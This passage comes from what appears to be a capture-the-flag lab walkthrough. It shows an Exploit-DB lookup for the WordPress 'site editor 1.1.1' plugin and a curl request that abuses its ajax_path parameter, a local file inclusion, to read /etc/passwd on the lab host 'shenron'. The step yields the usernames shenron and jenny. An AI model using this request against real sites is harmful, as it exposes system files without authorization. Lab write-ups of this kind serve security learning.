


4.1 LFI
You got an exploit for “site editor 1.1.1”.
1. See how to use it.
$locate 44340.txt
$cat /usr/share/exploitdb/exploits/php/webapps/44340.txt
$cat /usr/share/exploitdb/exploits/php/webapps/44340.txt
Output:

2. Run the exploit on your terminal to get the “/etc/passwd” file.
$curl http://shenron:8080/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
Output:

There are 2 interesting users: shenron and jenny.